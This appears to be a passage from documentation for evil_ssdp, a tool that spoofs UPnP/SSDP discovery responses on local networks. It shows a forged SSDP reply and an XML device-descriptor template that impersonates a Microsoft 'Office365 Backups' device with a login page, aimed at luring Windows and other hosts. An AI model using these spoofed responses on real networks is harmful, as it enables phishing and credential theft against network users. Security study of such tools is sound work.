 To interact with this host, we need to capture both the source port and the 'ST' (Service Type) header. The response MUST be sent to the correct source port and SHOULD include the correct ST header. Note that it is not just the Windows OS looking for devices - scanning a typical network will show a large amount of requests from applications inside the OS (like Spotify), mobile phones, and other media devices. Windows will only play ball if you reply with the correct ST, other sources are more lenient.

evil_ssdp will extract the requested ST and send a reponse like the following:

```
HTTP/1.1 200 OK
CACHE-CONTROL: max-age=1800
DATE: Tue, 16 Oct 2018 20:17:12 GMT
EXT:
LOCATION: http://192.168.1.214:8888/ssdp/device-desc.xml
OPT: "http://schemas.upnp.org/upnp/1/0/"; ns=01
01-NLS: uuid:7f7cc7e1-b631-86f0-ebb2-3f4504b58f5c
SERVER: UPnP/1.0
ST: upnp:rootdevice
USN: uuid:7f7cc7e1-b631-86f0-ebb2-3f4504b58f5c::upnp:rootdevice
BOOTID.UPNP.ORG: 0
CONFIGID.UPNP.ORG: 1
```

The headers (specifically LOCATION, 01-NLS, ST, and USN) are constructed dynamically. This tells the requestor where to find more information about our device. Here, we are forcing Windows (and other requestors) to access our 'Device Descriptor' xml file and parse it. The USN is just a random string and needs only to be unique and formatted properly.

evil_ssdp will pull the 'device.xml' file from the chosen templates folder and dynamically plug in some variables such as your IP address. This 'Device Descriptor' file is where you can customize some juicy-sounding friendly names and descriptions. It looks like this:

```
<?xml version="1.0"?>
<root xmlns="urn:schemas-upnp-org:device-1-0">
  <specVersion>
    <major>1</major>
    <minor>0</minor>
  </specVersion>
  <URLBase>http://$local_ip:$local_port</URLBase>
  <device>
    <presentationURL>http://$local_ip:$local_port/login.html</presentationURL>
    <deviceType>urn:schemas-upnp-org:device:Basic:1</deviceType>
    <friendlyName>Office365 Backups</friendlyName>
    <modelDescription>Secure Storage for Office365</modelDescription>
    <manufacturer>MS Office</manufacturer>
    <modelName>Office 365 Backups</modelName>
    <UDN>$session_usn</UDN>
    <serviceList>
      <service>
        <serviceType>urn:schemas-upnp-org:device:Basic:1</serviceType>
        <serviceId>urn:schemas-upnp-org:device:Basic</serviceId>
        <controlURL>/ssdp/service-desc.xml</controlURL>
        <eventSubURL>/ssdp/service-desc.xml</eventSubURL>
        <SCPDURL>/ssdp/service-desc.xml</SCPDURL>
      </service>
    </serviceList>

  </device>
</root>
```
